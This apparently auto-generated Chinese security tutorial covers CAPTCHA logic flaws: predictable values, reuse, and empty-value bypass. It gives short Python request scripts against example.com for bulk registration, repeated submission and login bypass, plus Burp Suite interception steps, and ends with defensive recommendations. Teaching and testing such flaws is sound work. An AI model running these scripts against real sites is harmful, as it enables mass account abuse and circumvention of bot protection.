 # 验证码逻辑缺陷的攻击技术

## 1. 技术原理解析

验证码（CAPTCHA）是一种用于区分人类用户和自动化程序的技术。然而，验证码的实现可能存在逻辑缺陷，使得攻击者能够绕过验证码的保护机制。验证码逻辑缺陷通常涉及以下几个方面：

### 1.1 验证码生成逻辑缺陷
验证码生成过程中可能存在缺陷，例如：
- **验证码可预测**：验证码的生成算法过于简单，导致验证码可以被预测或重复使用。
- **验证码未绑定会话**：验证码生成后未与用户会话绑定，导致攻击者可以复用验证码。

### 1.2 验证码验证逻辑缺陷
验证码验证过程中可能存在缺陷，例如：
- **验证码未失效**：验证码在验证后未立即失效，导致攻击者可以多次使用同一验证码。
- **验证码未校验**：服务器端未对验证码进行校验，或校验逻辑存在漏洞，导致攻击者可以绕过验证。

### 1.3 验证码传输逻辑缺陷
验证码在传输过程中可能存在缺陷，例如：
- **验证码明文传输**：验证码在传输过程中未加密，导致攻击者可以截获验证码。
- **验证码未绑定请求**：验证码未与特定请求绑定，导致攻击者可以将验证码用于其他请求。

## 2. 常见攻击手法和利用方式

### 2.1 验证码预测
**原理**：攻击者通过分析验证码生成算法，预测出下一个验证码的值。
**利用方式**：
- **重放攻击**：攻击者预测验证码后，将其用于多次请求。
- **批量注册**：攻击者预测验证码后，用于批量注册账号。

**示例代码**：
```python
import requests

def predict_captcha():
    # 假设验证码生成算法为简单的递增数字
    captcha = 1000
    while True:
        yield captcha
        captcha += 1

captcha_gen = predict_captcha()
for _ in range(10):
    captcha = next(captcha_gen)
    response = requests.post('https://example.com/register', data={'captcha': captcha})
    print(response.text)
```

### 2.2 验证码复用
**原理**：攻击者通过分析验证码的生成和验证逻辑，发现验证码可以多次使用。
**利用方式**：
- **会话劫持**：攻击者获取到验证码后，将其用于其他用户的会话。
- **批量提交**：攻击者获取到验证码后，用于批量提交表单。

**示例代码**：
```python
import requests

def reuse_captcha():
    # 获取验证码
    response = requests.get('https://example.com/captcha')
    captcha = response.text
    # 复用验证码
    for _ in range(10):
        response = requests.post('https://example.com/submit', data={'captcha': captcha})
        print(response.text)

reuse_captcha()
```

### 2.3 验证码绕过
**原理**：攻击者通过分析验证码的校验逻辑，发现可以绕过验证码的校验。
**利用方式**：
- **空值绕过**：攻击者提交空值或特定值，绕过验证码校验。
- **参数篡改**：攻击者篡改请求参数，绕过验证码校验。

**示例代码**：
```python
import requests

def bypass_captcha():
    # 绕过验证码校验
    response = requests.post('https://example.com/login', data={'captcha': ''})
    print(response.text)

bypass_captcha()
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
**工具**：
- **Python**：用于编写攻击脚本。
- **Requests库**：用于发送HTTP请求。
- **Burp Suite**：用于拦截和修改HTTP请求。

**步骤**：
1. 安装Python和Requests库。
2. 安装Burp Suite并配置代理。
3. 启动目标Web应用，确保验证码功能可用。

### 3.2 攻击步骤
**步骤1：分析验证码生成逻辑**
- 使用Burp Suite拦截验证码生成请求，分析验证码生成算法。
- 编写脚本模拟验证码生成过程。

**步骤2：分析验证码验证逻辑**
- 使用Burp Suite拦截验证码验证请求，分析验证码校验逻辑。
- 编写脚本测试验证码校验逻辑。

**步骤3：实施攻击**
- 根据分析结果，编写脚本实施验证码预测、复用或绕过攻击。
- 使用Burp Suite监控攻击效果。

**示例攻击脚本**：
```python
import requests

def attack_captcha():
    # 预测验证码
    captcha_gen = predict_captcha()
    captcha = next(captcha_gen)
    # 复用验证码
    for _ in range(10):
        response = requests.post('https://example.com/submit', data={'captcha': captcha})
        print(response.text)
    # 绕过验证码
    response = requests.post('https://example.com/login', data={'captcha': ''})
    print(response.text)

attack_captcha()
```

## 4. 实际命令、代码或工具使用说明

### 4.1 Python脚本
**安装Requests库**：
```bash
pip install requests
```

**运行攻击脚本**：
```bash
python attack_captcha.py
```

### 4.2 Burp Suite
**配置代理**：
1. 打开Burp Suite，进入Proxy -> Options。
2. 添加代理监听器，配置端口和IP地址。

**拦截请求**：
1. 打开浏览器，配置代理为Burp Suite的监听地址。
2. 访问目标Web应用，Burp Suite将拦截所有HTTP请求。

**修改请求**：
1. 在Burp Suite中拦截到验证码验证请求。
2. 修改请求参数，测试验证码校验逻辑。

### 4.3 其他工具
**OWASP ZAP**：类似于Burp Suite的开源Web应用安全测试工具。
**Postman**：用于发送HTTP请求的工具，可以用于测试验证码功能。

## 结论

验证码逻辑缺陷是Web应用中常见的安全漏洞，攻击者可以通过预测、复用或绕过验证码来实施攻击。通过深入分析验证码的生成、验证和传输逻辑，攻击者可以发现并利用这些缺陷。为了防范此类攻击，开发者应确保验证码的生成算法复杂且不可预测，验证码与用户会话绑定，并在验证后立即失效。此外，验证码的传输应使用加密通道，确保其安全性。

---

*文档生成时间: 2025-03-12 11:22:20*
